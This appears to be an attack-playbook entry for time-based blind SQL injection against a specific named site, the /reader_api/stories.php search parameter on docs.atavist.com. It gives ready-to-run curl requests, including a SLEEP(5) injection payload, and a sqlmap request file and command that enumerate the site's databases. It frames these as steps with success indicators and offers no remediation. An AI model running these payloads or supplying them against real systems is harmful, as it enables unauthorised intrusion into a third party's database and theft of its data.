

---
tags:
  - sqli
  - blind-sqli
  - time-based
  - mysql
  - web
type: attack_chain
tools:
  - '[[tools/sqlmap]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-and-Test-SQL-Injection-Endpoint]]'
  - '[[procedures/Confirm-SQL-Injection-with-Payloads]]'
  - '[[procedures/Enumerate-Databases-with-sqlmap]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T03:15:09.922Z'
description: >-
  A multi-step attack exploiting a SQL injection vulnerability in the search
  parameter of the Atavist docs API to confirm injection and enumerate
  databases.
skill_level: intermediate
impact_level: high
id: 1d33de22-be2b-4d4a-b311-518f5fce99df
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Time-Based Blind SQL Injection on Atavist Docs Search Endpoint

Multi-stage attack chain demonstrating exploitation of a SQL injection vulnerability in the /reader_api/stories.php endpoint on docs.atavist.com to gain unauthorized access to database information.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/sqlmap]]

### Target Environment

- Web platform with MySQL backend
- Access to /reader_api/stories.php endpoint
- No authentication required for the search parameter

### Initial Access Requirements

- Public network access to docs.atavist.com
- No credentials needed
- Tools like curl or browser for initial testing

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-and-Test-SQL-Injection-Endpoint]]

**Objective**: Examine the API endpoint to identify the search parameter as a potential injection point.

**Instructions**: Send a GET request to /reader_api/stories.php with parameters like limit=10, offset=20, organization_id=88822, search=0, sort= to observe the normal response behavior.

```bash
curl "https://docs.atavist.com/reader_api/stories.php?limit=10&offset=20&organization_id=88822&search=0&sort="
```

**Expected Output**: JSON response with stories data, confirming the endpoint processes the search parameter.

**Success Indicators**:
- Endpoint returns expected data without errors
- Search parameter is accepted in the query

### Step 2: Test for SQL Injection
procedure: [[procedures/Confirm-SQL-Injection-with-Payloads]]

**Objective**: Inject a time-based payload to confirm blind SQL injection vulnerability.

**Instructions**: Modify the search parameter with a sleep payload: search=0' AND SLEEP(5) AND 'wRIg' LIKE 'wRIg'. Use curl or a proxy to send the request and time the response.

```bash
curl "https://docs.atavist.com/reader_api/stories.php?limit=10&offset=20&organization_id=88822&search=0'%20AND%20SLEEP(5)%20AND%20'wRIg'%20LIKE%20'wRIg'&sort="
```

**Expected Output**: Response delayed by approximately 5 seconds, indicating the payload executed on the MySQL backend.

**Success Indicators**:
- Response time increases by 5 seconds
- No error messages, confirming blind injection

### Step 3: Enumerate Databases with sqlmap
procedure: [[procedures/Enumerate-Databases-with-sqlmap]]

**Objective**: Use sqlmap to automate detection, confirm DBMS, and list available databases.

**Instructions**: Save the vulnerable request to a file (e.g., r.txt) and run sqlmap with increased level and risk to enumerate databases.

First, prepare the request file r.txt:

```bash
# Content of r.txt
GET /reader_api/stories.php?limit=10&offset=20&organization_id=88822&search=0&sort= HTTP/1.1
Host: docs.atavist.com
```

Then execute using [[commands/sqlmap-database-enumeration]]:

```bash
sqlmap -r r.txt --level=2 --risk=2 --dbs
```

**Expected Output**: sqlmap detects MySQL >=5.0.12 and lists database names, such as information_schema and user databases.

**Success Indicators**:
- DBMS identified as MySQL
- List of databases retrieved
- No disruption to the target service

## Attack Chain Summary

### Key Achievements

1. Confirmed time-based blind SQL injection in the search parameter
2. Identified MySQL as the backend database
3. Enumerated available databases for further exploitation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
